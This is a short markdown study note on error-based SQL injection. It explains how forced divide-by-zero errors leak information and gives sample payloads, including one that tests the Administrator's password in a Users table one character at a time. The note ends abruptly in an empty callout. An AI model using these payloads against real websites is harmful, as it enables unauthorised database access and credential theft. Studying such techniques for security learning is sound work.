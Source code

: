 ```yaml
---
Title: Error-based SQLi
tags:
  - SQLi
  - ERROR-BASEDSQLi
---
```

Error based sql is focused on error messages that a website returns, and exploiting that to extract sensitive data from the database.

> [!Example]
> ```sql
> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
> --- in simpler terms: if 1=2, execute 1/0 (1 divided by 0, which returns a database error), else, return 'a'
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

We can exploit these errors, just like we did in [[Blind SQLi]].
> [!Sample Payload]
> ```sql
> xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
> --- If the condition is true, it should return an error, else, the condition will return true because of 'a' = 'a'

To further understand this, let's create the sample query:
> [!Sample query]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'
> --- for example, this is the query that is being executed in the server
> ```
> [!hello]
> 






